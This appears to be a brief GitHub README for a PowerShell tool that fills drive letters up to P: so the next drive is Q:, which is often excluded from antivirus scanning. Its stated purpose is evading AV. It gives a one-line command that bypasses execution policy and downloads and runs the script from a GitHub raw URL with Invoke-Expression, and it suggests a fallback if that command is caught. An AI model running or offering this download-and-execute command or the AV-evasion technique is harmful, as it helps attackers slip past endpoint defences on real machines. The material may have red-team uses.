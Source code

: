 # a(pp)v
App-V uses a Q: drive which often is excluded from AV scanning. 
This script tries to create drives through P: so the next drive will be Q:, effectively evading AV.

Just type the following command in PowerShell console:
powershell.exe -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/intosec-nl/a-pp-v/master/a%5Bpp%5Dv.ps1')"

Or if you suspect invoke-expression is caught, just download the scipt.
